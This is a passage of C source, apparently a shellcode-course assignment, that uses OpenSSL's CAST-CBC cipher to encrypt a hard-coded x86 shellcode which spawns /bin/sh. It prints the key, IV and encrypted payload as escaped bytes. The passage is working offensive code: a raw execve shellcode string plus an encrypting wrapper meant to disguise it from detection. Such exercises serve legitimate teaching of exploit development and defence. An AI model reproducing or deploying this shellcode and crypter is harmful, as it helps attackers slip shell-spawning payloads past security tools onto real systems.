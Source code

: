 ```c
    };

    // Our original shellcode from assignment 6, exec /bin/sh
    unsigned char data[] = \
	"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

    // Round up the length to a multiple of 16 */
    int length  = (int)(strlen(data) + (CAST_BLOCK - 1)) & ~(CAST_BLOCK - 1);

    // temp array for the original shellcode
    // All values are set to 0 because length is a multiple of 16
    char*  temp = (char*) calloc(length, sizeof(char)); 
    
    // Dynamic memory to store the  output of OpenSSL's CAST CBC method
    char* crypt = (char*) malloc(sizeof(char) * length); 

	// Copy the IV data to the IV array
    memcpy(iv, iv_data, CAST_BLOCK);

    // Print IV & key 
    affichageVar(key_data, CAST_KEY_LENGTH, "Key");
    affichageVar(iv_data, CAST_BLOCK, "IV");

    // Copy original shellcode to heap to work with
    memcpy(temp, data, strlen(data));

    // Set the key 
    CAST_set_key(&key, CAST_KEY_LENGTH * 8, key_data);

    // encryption, store the encoded shellcode into crypt
    CAST_cbc_encrypt(temp, crypt, length, &key, iv, CAST_ENCRYPT);

    affichage(crypt, length, "crypted");    

    free(crypt);

    return 0;
}

void affichageVar(unsigned char* tab, int length, char* name)
{
	int i;
	printf("\n[+] %s: ", name);
	for (i = 0; i < length; i++)
        	printf("\\x%02x", *(tab+i));
	
}

void affichage(unsigned char* tab, int length, char* name)
{
        int i;
        printf("\n[+] %s Shellcode: ",name);
        for (i = 0; i < length; i++)
                printf("\\x%02x", *(tab+i));

	printf("\n");
}
```
